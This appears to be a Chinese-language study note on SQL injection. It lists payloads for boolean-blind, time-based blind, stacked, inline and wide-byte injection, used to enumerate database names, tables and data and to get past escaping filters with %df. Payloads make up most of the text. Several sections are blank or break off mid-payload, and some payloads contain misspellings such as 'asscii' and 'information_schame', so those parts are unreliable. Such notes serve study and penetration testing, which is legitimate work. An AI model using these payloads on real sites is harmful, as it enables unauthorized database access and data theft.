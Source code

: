 1#获得数据库名长度为8</br>
```
?id=1' and (length(database())=8)%23           #有回显
```
2#获得数据库名</br>
```
?id=1' and ascii(substr(database(),1,1))<100 %23             #无回显
?id=1' and ascii(substr(database(),1,1))=115 %23             #有回显
```
3#获得数据库表名个数</br>
```
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23         #有回显
```
4#获得数据库表名长度</br>
```
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23 
```
5#获得数据库表名</br>
```
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
6#获取列名</br>
 </br>
7#获得数据            </br>              
 </br>
### 4、时间盲注：</br>
1#获得数据库名长度</br>
```
?id=1' and if((length(database())>5),sleep(5),1)%23        #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23        #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23        #无时间延迟，说明判断正确
```
2#获得数据库名</br>
```
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23                 #有无回显
```
3#获得表名（同理先获取长度）</br>
```
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)            #有无回显
```
4#获取数据库列名（先拿列长度？）</br>
```
?id=1' and if
```
5#获取数据</br>
```
?id=1' and if
```
### 5、堆叠注入：
mysqli_query函数不支持堆叠注入，mysqli_muiti_query()支持堆叠注入。</br>
语法：select * from users;create table you(id int);#      </br>
id=1';create table you(id int);#</br>
### 6、内联注入：
子查询：select (select 1)</br>
### 7、宽字节注入：
在GBK编码格式的MySQL数据库中，针对敏感符号前添加斜杠这种过滤方式，利用两个字节构成一个汉字的原理，我们在敏感符号前加%81-%FE之间的URL编码，与斜杠/共同组成一个汉字，从而吃掉斜杠/绕过waf。</br>
虽然用%df能绕过id=1'部分的引号，但是如果后面SQL注入部分出现引号，比较难绕过。比如查询列名的时候，要用到table_name='email'，该语句引号前加%df会使表名出错，无法查询列名。</br>
解决方法：将表名和列名转换成十六进制，并且在十六进制之前加上0x即可。</br>
```
```